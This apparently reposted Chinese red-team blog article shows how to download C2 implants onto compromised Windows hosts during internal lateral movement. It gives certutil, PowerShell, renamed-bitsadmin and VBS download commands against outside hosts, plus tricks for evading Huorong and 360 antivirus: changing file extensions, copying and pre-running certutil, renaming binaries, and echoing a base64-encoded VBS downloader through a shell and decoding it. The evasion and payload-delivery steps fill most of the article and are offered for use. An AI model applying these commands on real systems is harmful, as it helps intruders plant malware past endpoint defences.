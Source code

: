 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/I7nzjos8cr3iuxWwYRES8w)

  

**点击蓝字 ·  关注我们**

**背景**

一年一度的 HVV 又要开始啦，在内网横向的时候，可能在 Webshell 上传大文件、或 SMBEXEC、xp_cmdshell 执行的时候，需要利用系统自带的下载命令，直接下载 C2 马执行。

我在这里就不说如何用 DOS 命令写执行文件了，（主要利用 certutil 进行加密，分段写入，再利用 certutil 解密还原）再做下载了，遇到稍微大一些的文件，着实有点费劲。

certutil Bypass

**普通下载**

```
certutil -urlcache -split -f http://xxx/calc.exe  
C:\windows\temp\updates.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrm7zHhCwmGVkbzNzF3uahJk1VcQmcSRuQfmVoVkGDRkBXsVvfq5xLZFQ/640?wx_fmt=png)

可以看到防护项目，指出我们利用 Certutil 下载了可执行文件，那么我们下载非执行文件是否就可以了呢？

```
certutil -urlcache -split -f http://x/calc.txt  
C:\windows\temp\updates.txt  && 
C:\windows\temp\updates.txt
```

直接把下载的可执行文件，改成 txt，火绒就可以 Bypass 了

(可见这里火绒拦截的只是下载文件的后缀格式，是否为可执行文件)

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrm8tiaviaDRIc6tyCkpGwk9MuRpLPp2Quj1bMZZI2zeoBeSHVh2cX0Oefw/640?wx_fmt=png)

但是，当我们遇到了 360，并不好使！！！ 风险内容为：certutil 木马下载工具，那是识别出我的命令？

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmM9Kic5u8yNbrSFNxDp782yzI8Gc1bRxp3UkibjK6NaM4XmLddv4oM21Q/640?wx_fmt=png)

这个最后解决挺佛系的， 首先我们要 copy 一份 certutil 到任意目录 任意文件名，保持不变也没有关系

为了运行 certutil 时 不在 system32 目录下运行，

  1. 首先正常执行一遍，不要带任何参数，

  2. 第二遍再带参数  360 就不拦截啦

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmXoNyicsrzE6zSDnlsicibFibRlmfWQ0PjPtX1I9yA02uLAGWEVdCrA94xQ/640?wx_fmt=png)

Powershell download

```
powershell -c "Invoke-WebRequest -uri 
 http://x:80/download/sv.exe -OutFile 
 C:\windows\tasks\x.exe"
```

Powerhsell 如果执行的第一条没有被绕过，那么接下来执行 Whomai 也会被 ban

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmibCSUSmxVRTts0VkKNSnRp5g0p3GT267dZdm9Lt1fxxIOZKZesx04CA/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmiam23303mQf0RrVklaxLlp5yYGOeLEIILM7MZgF1WHgFZLibs5PxwdxA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmvseXhBADj2Ay5Ibbe9hdJvHsMpaG71e50xiaJ8b2ibib57xwO0l0eQsEA/640?wx_fmt=png)

针对 360 的拦截，需要把 powershell 名称修改掉，由于我这里的下载网址不存在，Webrequest 的操作还是执行了的（但是很多情况 对 powershell 拦截的着实很严重，有更好的方法，师傅们可以加我们内部创建的群，互相交流下），powershell 可以和环境变量花式玩起来。

Bitsadmin

```
bb.exe /transfer n  
https://www.baidu.com/img/flexible/logo/pc/result.png %LOCALAPPDATA%\Temp\1.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmPxiabrK8skPYIuZibsiar7N5aXNLHic9ibDKD1rG68RUHMCPub7kGJxjy5w/640?wx_fmt=png)

当我把详细信息的 bitsadmin 删除后

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmtm0NamhaqbDbiaVc8a9bWHDfKB0tNzEQgQPKpv3CNSBNtHNYoGn1OqQ/640?wx_fmt=png)

我的下载就可以正常执行了，某数字 AV 就对我放行了。所以杀的并不是行为，只是特征！

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmq529PlTesjBYmxBzUHPLdpJFNyl7TS7jGESeicmCZceDEeP26zkSHZw/640?wx_fmt=png)

但是在 DOS 下对详细信息的处理也不是很轻松，具体还是要看大家当时的环境和需求，支持个怎么样的玩法吧。

手写 VBS 进行下载

```
cscript down.vbs 
http://www.baidu.com/img/dong_528d34b686d4889666f77c62b9a65857.gif 1.jpg
```

这里要求对 VBS 免杀就可以了，火绒和 360 都是没有拦截的。

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrm9gY8zTHLZuWKywaUo1CEIjZ9ITpa98WsxW1rXibE55u4SQvhvMwZJCA/640?wx_fmt=png)

那么环境再苛刻一点，只有一个 Shell 会话，这 13 行代码如何在命令行中 echo 到目标呢？

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmHlPXpd51mOibDNU1SicfGB0lMN5SmIhkTeBqib8xIxhfET5v5Mibdmjntw/640?wx_fmt=png)

本地做好 base64 加密

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmktbZ0X8ibj1ahk2B3wnTI2wB62kZpBZIyjf9UHZ7dCsWHfrIYu5jomA/640?wx_fmt=png)

手动去除注释信息，和换行，拼接为一行，直接 echo 写入目标，再用 certutil -decode 做解密即可正常使用。

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmWdQbDrLfGbIPmXXhTkAD8BPPqMqAE5RN0dhRshEYtXr03iaZ02mMRfQ/640?wx_fmt=png)

这里写的还算是比较短的了，如果有更好的方法，希望师傅们可以加我们内部群共同讨论。

**00**

Tip

 ****VBS 脚本可转发朋友圈并关注公众号 回复 EDI-VBS 进行下载****

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenUjQUbYlEgNuhhSUmZgOrmmZJkatba9NVsTbq6jjsCBZpGLtSFXOnGwlB2ibTtqvkHiayJ4mnj45uw/640?wx_fmt=png)